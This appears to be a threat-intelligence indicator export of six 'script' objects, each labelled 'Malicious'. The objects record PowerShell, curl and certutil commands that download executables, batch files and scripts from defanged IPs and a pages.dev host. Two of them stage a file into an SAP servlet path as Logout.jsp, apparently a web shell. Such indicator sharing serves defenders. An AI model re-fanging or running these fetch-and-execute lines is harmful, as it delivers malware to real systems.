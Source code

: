### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell Invoke-WebRequest -Uri "hxxp://31.192.107[.]157:38205/ReportQueue.exe" -OutFile "%ALLUSERSPROFILE%\ReportQueue.exe"
* [Other] text: Bash
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell Invoke-WebRequest -Uri "hxxp://158.247.224[.]100:38205/EACA38DB.tmp" -OutFile "%ALLUSERSPROFILE%\EACA38DB.tmp"
* [Other] text: Bash
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell curl -o "%PUBLIC%\ansgdhs.bat" hxxp://101.32.26[.]154/rymhNszS/ansgdhs.bat
* [Other] text: PowerShell
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell IEX(New-Object Net.WebClient).DownloadString('hxxps://d-69b.pages[.]dev/sshb64.ps1')
* [Other] text: PowerShell
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: certutil.exe -urlcache -split -f hxxp://108.171.195[.]163:8000/$FILE_NAME$.txt ~\sap.com\irj\servlet_jsp\irj\root\Logout.jsp
* [Other] text: PowerShell
* [Other] text: Malicious

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: powershell (new-object Net.WebClient).DownloadFile('hxxp://108.171.195[.]163:8000/$FILE_NAME$.txt ,'~\sap.com\irj\servlet_jsp\irj\root\Logout.jsp')
* [Other] text: PowerShell
* [Other] text: Malicious
